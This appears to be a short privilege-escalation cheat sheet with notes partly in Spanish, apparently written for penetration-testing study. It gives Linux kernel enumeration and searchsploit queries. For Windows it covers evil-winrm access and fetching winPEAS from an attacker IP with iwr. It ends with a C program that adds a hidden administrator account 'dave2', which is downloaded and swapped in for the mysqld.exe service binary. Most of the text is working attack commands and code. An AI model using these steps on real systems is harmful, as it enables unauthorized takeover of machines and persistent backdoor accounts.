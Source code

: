 ## Kernel Vulnerabilities

 cat /etc/issue
 Ubuntu 16.04.4 LTS \n \l
 joe@ubuntu-privesc:~$ uname -r 
4.4.0-116-generic
joe@ubuntu-privesc:~$ arch
x86_64

searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation" | grep 
"4." | grep -v " < 4.4.0" | grep -v "4.8"

## Windows 

WinRM

Esto es utilizado en caso de que nuestro bash este fallando mucho, es para mejorarlo:)
```cmd
evil-winrm -i 192.168.50.220 -u USER -p "PASS"
```
Winpeas
```cmd
powershell
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
```
## Servicios
```cmd
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

icacls "C:\xampp\apache\bin\httpd.exe"
```
El output puede tirar alguno de estos permisos

| Mask | Permissions | 
|---|---|
| F | Full access |
| M | Modify access |
| RX | Read and execute access |
| R | Read-only access |
| W | Write-only access |

En caso de encontrar un F, se puede sobreescribir el archivo y reemplazarlo
```c
#include <stdlib.h>
int main ()
{
 int i;
 
 i = system ("net user dave2 password123! /add");
 i = system ("net localgroup administrators dave2 /add");
 
 return 0;
}
```
```cmd
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe 
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
net stop mysql
```